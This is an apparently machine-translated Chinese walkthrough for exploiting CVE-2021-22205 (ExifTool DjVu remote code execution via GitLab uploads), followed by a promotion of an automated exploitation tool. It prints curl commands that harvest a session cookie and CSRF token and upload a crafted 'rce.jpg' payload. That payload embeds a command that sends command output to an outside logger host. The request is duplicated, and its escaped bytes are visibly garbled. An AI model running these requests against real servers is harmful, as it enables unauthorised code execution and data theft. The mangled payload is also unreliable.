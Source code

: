 **如何在道德黑客活动中利用 CVE-2021-22205**

## 为了利用 CVE-2021-22205 ，你必须遵循以下步骤:

curl-k-s https://**<HOST>**/users/sign _ in
从这里，您需要提取 cookie 会话 id 和 CSRF 令牌。>

| curl-I-s-k-X $ ' POST '
-H $ ' Host:**<Host>**'-H $ ' Connection:close '-H $ ' Accept-Encoding:gzip，deflate '-H $ ' Accept:*/*'-H $ ' User-Agent:Mozilla/5.0(Windows NT 10.0；RV:60.0)Gecko/2011 01 01 Firefox/60.0 '-H $ ' X-Csrf-Token:**<CSRF _ Token>**'-H $ ' Content-Type:multipart/form-data；boundary =—-webkitformboundaryimv 3 mxrg 59 tkfsx 5 '-H $ ' Content-Length:974 '
-b $ '*GITLAB*SESSION =**<GITLAB _ SESSION>**；实验 *subject* id= < **实验*SUBJECT*ID**>
–data-binary $ ' x0dx0a——webkitformboundaryimv 3 mxrg 59 tkfsx 0x 0 dx0a content-Disposition:form-data；name = " filefilename = "**rce.jpg**" x0dx 0 a content-Type:image/JPEG x0 dx 0 ax 0x 0 aat&t formx 0 0x 00x 0x 03 xafdjvmdirmx 00x 00 x 00 x 81 x 00 x 02 x 00 x 00 FX 00x 00 x 00 acxfffxfxfxdebfx 99！xc8x 91 nxebx 0 CX 07 x1 fxd 2 xda x88 xe 8 kxe 6 dx 0 f，qx02xeeIxd3nx95xbdxa2xc3 "？formx00x00x00^djvuinfox00x00x00x0ax00x08x00x08x18x00dx00x16x00inclx00x00x00x0fshared_anno.iffx00bg44x00x00x00x11x00jx01x02x00x08x00x08x8axe6xe1xb17xd9x7f*x89x00bg44x00x00x00x04x01x0fxf9x9fbg44x00x00x00x02x02x0aformx00x00x03x07djviantax00x00x01p(metadatax0ax09(copyright " \ x0a "。qx {**curl–data $(<命令>)https://<LOGGER>**}。\ x0a " b "))x 0x 0 dx 0 a——webkitformboundaryimv 3m xrg 59 tkfsx 5–x 0x 0 ax 0 dx 0 a " '
' https://**<HOST>**/uploads/user ' |
| --- |
| curl-I-s-k-X $ ' POST '
-H $ ' Host:**<Host>**'-H $ ' Connection:close '-H $ ' Accept-Encoding:gzip，deflate '-H $ ' Accept:*/*'-H $ ' User-Agent:Mozilla/5.0(Windows NT 10.0；RV:60.0)Gecko/2011 01 01 Firefox/60.0 '-H $ ' X-Csrf-Token:**<CSRF _ Token>**'-H $ '内容-类型:multipart/form-data；boundary =—-webkitformboundaryimv 3 mxrg 59 tkfsx 5 '-H $ ' Content-Length:974 '
-b $ '*GITLAB*SESSION =**<GITLAB _ SESSION>**；实验 *subject* id= < **实验*SUBJECT*ID**>
–data-binary $ ' x0dx0a——webkitformboundaryimv 3 mxrg 59 tkfsx 0x 0 dx0a content-Disposition:form-data；name = " filefilename = "**rce.jpg**" x0dx 0 a content-Type:image/JPEG x0 dx 0 ax 0x 0 aat&t formx 0 0x 00x 0x 03 xafdjvmdirmx 00x 00 x 00 x 81 x 00 x 02 x 00 x 00 FX 00x 00 x 00 acxfffxfxfxdebfx 99！xc8x 91 nxebx 0 CX 07 x1 fxd 2 xda x88 xe 8 kxe 6 dx 0 f，qx02xeeIxd3nx95xbdxa2xc3 "？formx00x00x00^djvuinfox00x00x00x0ax00x08x00x08x18x00dx00x16x00inclx00x00x00x0fshared_anno.iffx00bg44x00x00x00x11x00jx01x02x00x08x00x08x8axe6xe1xb17xd9x7f*x89x00bg44x00x00x00x04x01x0fxf9x9fbg44x00x00x00x02x02x0aformx00x00x03x07djviantax00x00x01p(metadatax0ax09(copyright " \ x0a "。qx {**curl–data $(<COMMAND>)https://<LOGGER>**}。\ x0a " b "))x 0x 0 dx 0 a——webkitformboundaryimv 3m xrg 59 tkfsx 5–x 0x 0 ax 0 dx 0 a " '
' https://**<HOST>**/uploads/user ' |

如果你想尝试另一种更快的开发策略，请继续阅读这篇文章。

验证 CVE-2021-22205 在你的目标上可被利用的最快和最省事的方法是使用[狙击自动利用者](https://pentest-tools.com/exploit-helpers/sniper)，Pentest-Tools.com 上的自动攻击者。

该工具自动模拟现实世界的利用和攻击技术:

它扫描开放的端口，收集有关协议、服务类型和版本的数据

*   它对 web 服务进行指纹识别，以确定运行的 web 应用程序的类型及其背后的技术栈

*   它寻找兼容的利用

*   它检查目标是否确实易受攻击，在此阶段不提取任何数据
